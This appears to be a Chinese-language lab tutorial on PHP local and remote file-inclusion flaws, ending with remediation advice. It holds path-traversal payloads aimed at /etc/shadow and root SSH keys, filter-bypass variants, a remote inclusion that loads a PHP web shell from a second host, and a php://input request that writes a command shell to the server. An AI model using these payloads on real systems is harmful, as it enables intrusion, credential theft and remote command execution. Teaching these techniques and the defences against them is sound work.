


[TOC]

## 一、文件包含漏洞必知

### 1.造成漏洞的函数

**file_get_contents**

### 2.漏洞使用示例

```http
/get.php?file=../../../../etc/passwd
```

### 3.重要文件路径

| **位置**                    | **描述**                                                     |
| --------------------------- | ------------------------------------------------------------ |
| /etc/issue                  | 包含要在登录提示之前打印的消息或系统标识。                   |
| /etc/profile                | 控制系统范围的默认变量，例如导出变量、文件创建掩码 （umask）、终端类型、邮件消息以指示新邮件何时到达 |
| /proc/version               | 指定 Linux 内核的版本                                        |
| /etc/passwd                 | 具有访问系统的所有注册用户                                   |
| /etc/shadow                 | 包含有关系统用户密码的信息                                   |
| /root/.bash_history         | 包含 root 用户的历史记录命令                                 |
| /var/log/dmessage           | 包含全局系统消息，包括系统启动期间记录的消息                 |
| /var/mail/root              | root 用户的所有电子邮件                                      |
| /root/.ssh/id_rsa           | 服务器上 root 或任何已知有效用户的私有 SSH 密钥              |
| /var/log/apache2/access.log | 对 Apache Web 服务器的访问请求                               |
| C：\boot.ini                | 包含具有 BIOS 固件的计算机的启动选项                         |

## 二、本地文件包含过滤器绕过（LFI）

### 2.1指定文件类型过滤

该类过滤，会在处理文件请求前，给文件指定类型，如  **.php/.img/.html**  等。如请求访问  **../../../etc/passwd**  文件,在服务器中处理的文件名则可能是  **../../../etc/passwd.php**  。

#### 	2.1.1 过滤结果展示

```shell
#使用的文件包含路径如下
../../../etc/passwd

File Content Preview of ../../../../etc/passwd
#服务器处理异常如下
Warning: include(includes/../../../../etc/passwd.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab3.php on line 26
```

#### 	2.1.2 过滤绕过方法

可通过在**文件名末尾加上  %00  或  /.  **来**忽略**后**服务器**中进行处理的**文件后缀名**，如下：

```http
/get.php?file=../../../../etc/passwd%00
/get.php?file=../../../../etc/passwd/.
```

### 2.2 关键字过滤

此类过滤，用于**对文件设限制**.

#### 	2.2.1 过滤结果展示

```python
#使用的文件包含路径如下
../../../etc/passwd

File Content Preview of ../../../../etc/passwd
#结果展示如下

You are not allowed to see source files! 
```

#### 	2.2.2 过滤绕过方法

绕过方法，同4.1.2

```http
/get.php?file=../../../../etc/passwd%00
/get.php?file=../../../../etc/passwd/.
```

### 2.3 过滤字符" ../ "

此类过滤仅匹配一遍字符串中的所有"**../**"。 

#### 	2.3.1 过滤结果展示

```python
#使用的文件包含路径如下
../../../../etc/passwd

#结果展示如下，文件包含路径中的 ../ 全部被过滤

Warning: include(includes/etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab5.php on line 28
```

#### 	2.3.2 过滤绕过方法

可通过拼接../字符的方法对文件包含路径进行绕过，绕过方法如下：

```http
/get.php?file=....//....//....//....//etc/passwd
```

### 2.4 非指定目录过滤

此类过滤会限制被访问的文件夹，不在指定文件夹下的文件被访问时，访问请求会被过滤。

#### 2.4.1过滤结果展示

```python
#使用的文件包含路径如下
../../../../etc/passwd

#结果展示如下，文件包含路径中的 ../ 全部被过滤

Access Denied! Allowed files at THM-profile folder only! 
```

#### 2.4.2过滤绕过方法

可通过在路径前添加指定文件夹的方式绕过此过滤，绕过方法如下：

```python
/lab6.php?file=THM-profile/../../../../etc/passwd
```

## 三、远程文件收录（RFI）

将本地文件包含的路径更改为url如下：

```python
本地文件包含
http://10.10.206.143/playground.php?file=../../../../etc/passwd
远程文件包含
http://10.10.206.143/playground.php?file=http://10.11.78.91:8080/cat.txt
```


## 四、利用文件包含getshell

#### 4.1远程文件包含利用

远程访问的url地址下，存放木马文件，内容如下：

```php
#PHP
hello world
<?PHP system($_GET['cmd']);?>
```



并在访问时，使用如下URL：

```url
http://xxx/[文件包含漏洞文件]?[参数]=[url]?cmd=[commond]

如：
http://10.10.76.222/playground.php?file=http://10.11.78.91:8080/cat.txt&cmd=whoami
```


#### 4.1伪协议注入

1.确认存在伪协议注入：如果攻击目标开启了**allow_url_include**配置，可尝试使用伪协议**php://input**尝试进行注入，构建POST请求如下：

```http
POST xxxxx?=php://input HTTP/1.1
xxxxxxxxxxx
xxxxxxxxxxx
xxxxxxxxxxx

<?php phpinfo();?>
```

效果如下：



2.确认后利用，将post中的请求数据提换为如下数据：

```python
POST xxxxx?=php://input HTTP/1.1
xxxxxxxxxxx
xxxxxxxxxxx
xxxxxxxxxxx

<?php fputs(fopen('my_shell.php','w'),'<?php system($_GET["cmd"]);?>');?>
```

3.在文件所在的文件夹下

使用以下url请求，来执行命令

```python
/my_shell.php?cmd=whoami
```


## 五、修复建议

作为开发人员，了解 Web 应用程序漏洞、如何查找漏洞以及预防方法非常重要。为了防止文件包含漏洞，一些常见的建议包括：

1. 使用最新版本更新系统和服务，包括 Web 应用程序框架。
2. 关闭 PHP 错误以避免泄露应用程序的路径和其他可能泄露的信息。
3. Web 应用程序防火墙 （WAF） 是帮助缓解 Web 应用程序攻击的不错选择。
4. 如果您的 Web 应用不需要某些会导致文件包含漏洞的 PHP 功能，请禁用这些功能，例如打开allow_url_fopen和allow_url_include。
5. 仔细分析 Web 应用程序，只允许有需要的协议和 PHP 包装器。
6. 永远不要相信用户输入，并确保对文件包含实施正确的输入验证。
7. 实现文件名和位置的白名单以及黑名单。
